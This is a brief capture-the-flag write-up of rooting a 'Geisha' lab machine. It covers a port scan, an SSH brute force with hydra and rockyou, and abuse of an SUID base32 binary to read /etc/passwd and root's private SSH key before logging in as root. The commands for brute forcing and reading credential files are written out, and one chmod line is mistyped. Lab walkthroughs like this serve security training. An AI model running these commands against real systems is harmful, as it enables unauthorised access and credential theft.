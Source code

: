 # Geisha

![[Pasted image 20220520204313.png]]

```
192.168.1.133
```

## Port scan

```bash
21/tcp   open  ftp      syn-ack ttl 64 vsftpd 3.0.3
22/tcp   open  ssh      syn-ack ttl 64 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp   open  http     syn-ack ttl 64 Apache httpd 2.4.38 ((Debian))
3389/tcp open  http     syn-ack ttl 64 nginx 1.14.2
7080/tcp open  ssl/http syn-ack ttl 64 LiteSpeed httpd
7125/tcp open  http     syn-ack ttl 63 nginx 1.17.10
8088/tcp open  http     syn-ack ttl 64 LiteSpeed httpd
9198/tcp open  http     syn-ack ttl 64 SimpleHTTPServer 0.6 (Python 2.7.16)
```

Dirbuster found a `passwd` file at 

```url
http://192.168.1.133:7125/passwd
```

Was able to brute force the `Geisha` user with hydra

```bash
hydra -l geisha -P /usr/share/wordlists/rockyou.txt 192.168.1.133 ssh 
```

![[Pasted image 20220527214936.png]]

linpeas.sh foudn that base32 has the SUID bit set

![[Pasted image 20220527215712.png]]


```bash
LFILE=/etc/passwd && base32 "$LFILE" | base32 --decode
```

![[Pasted image 20220527215755.png]]

I fired up john and started to work on cracking the hash. It was taking a while so I starting thinking of other ways into root.

Maybe there's an ssh key?

```bash
LFILE=/root/.ssh/id_rsa && base32 "$LFILE" | base32 --decode
```

sure enough!
![[Pasted image 20220527221516.png]]

I created the `id_rsa` file by copying the content and then set valid permissions on the file

```bash
chdmod 600
```

```bash
ssh -i id_rsa root@localhost
```


I am ROOT!

![[Pasted image 20220527221713.png]]